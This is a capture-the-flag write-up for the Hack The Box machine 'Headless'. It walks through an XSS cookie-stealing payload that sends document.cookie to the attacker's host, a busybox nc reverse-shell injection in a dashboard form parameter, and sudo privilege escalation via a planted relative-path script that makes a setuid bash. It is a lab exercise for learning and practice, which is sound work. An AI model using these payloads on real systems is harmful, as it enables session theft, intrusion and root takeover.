




---
tags:
  - linux
---
# HTB: [Headless](https://app.hackthebox.com/machines/Headless)

> [!tip]- Summary with Spoilers
> - This Linux machine included an XSS vulnerability that enabled RCE, providing initial access.
> - Privilege escalation was achieved via a misconfigured `sudo` script that invoked another script using a relative path.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Tue May 28 14:16:13 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp t
Nmap scan report for t (10.10.11.8)
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

## 5000/tcp Http



```console
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       93l      179w     2363c http://t:5000/support
200      GET       96l      259w     2799c http://t:5000/
500      GET        5l       37w      265c http://t:5000/dashboard
```

`/dashboard` complains about authorization:

```text
The server could not verify that you are authorized to access the URL requested. You either supplied the wrong credentials (e.g. a bad password), or your browser doesn't understand how to supply the credentials required.
```

Burp shows that it sets a cookie:

```console
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```

Decoded, it contains `"user",` and some data, `f^Tï›ËòŠÍhð֞ðY~`.

So, first I'll try to use the form at `/support` to do an XSS attack and recover an admin's cookie.

My first attempt uses `<script>var i=new Image(); i.src="http://10.10.14.2/?cookie="+btoa(document.cookie);</script>` as the `message` parameter on the `/support` form. But, the site doesn't like that:



I get one empty hit:

```console
10.10.14.2 - - [28/May/2024 16:38:29] "GET /?cookie= HTTP/1.1" 200 -
```

Eventually this one comes back:

```console
10.10.11.8 - - [28/May/2024 16:38:51] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

I'm not sure which requests those were from, since there's a lag.

Decoding the base64 value above, the cookie is:

```console
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

This time the value is "admin" not "user": `"admin"fÌ94Iº­(Ƚ_lħ^‘ô`

I try the `/dashboard` page again, but this time I use Intercept in Burp and replace the cookie value with the one captured. Now I can view the dashboard:



That's great but I also edit the cookie value in Firefox so I can play around with the dashboard without having to intercept and modify each request.



Here's the POST request:

```http
POST /dashboard HTTP/1.1
Host: t:5000
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://t:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://t:5000/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: close
date=2023-09-15
```

## RCE

Modifying the `date` parameter with a reverse shell invocation works:

```http
date=2023-09-15;busybox%20nc%2010.10.14.2%20443%20-e%20bash
```

```console
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.8] 42470
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

## PE

One script available via Sudo:

```console
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

```text
dvir@headless:~/app$ cat /usr/bin/syscheck
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
  exit 1
fi
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
exit 0
```

I'm most interested in this line:

```console
./initdb.sh 2>/dev/null
```

Since it's using a relative path, I'll create my own malicious `initdb.sh`.

```console
dvir@headless:~/app$ echo 'cp /bin/bash /tmp/x; chmod 4755 /tmp/x' > initdb.sh
dvir@headless:~/app$ chmod +x initdb.sh
```

I'll make sure the process it's looking for isn't running:

```text
dvir@headless:~/app$ ps faxuw |grep initdb
dvir        1497  0.0  0.0   6332  2128 pts/0    S+   02:00   0:00                  \_ grep initdb
```

And then I'll trigger the exploit.

```text
dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.05, 0.08, 0.08
Database service is not running. Starting it...
dvir@headless:~/app$ ls -l /tmp/x
-rwsr-xr-x 1 root root 1265648 May 29 02:00 /tmp/x
dvir@headless:~/app$ /tmp/x -p
x-5.2# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) groups=1000(dvir),100(users)
x-5.2# cat /root/root.txt
5f8c95f...
```

## Post

## Open Questions

Unresolved issues encountered while attacking this target.

- Which parameter on the `/dashboard` form was vulnerable to XSS? I tried several but it was hard to tell which one worked since there was a delay in the response. And how did one of the responses return an empty string?

## Credits

- Thanks to [TechnoLifts writeup](https://medium.com/@technolifts/headless-hack-the-box-htb-write-up-1c728108c0ca) for getting the right syntax on the XSS.
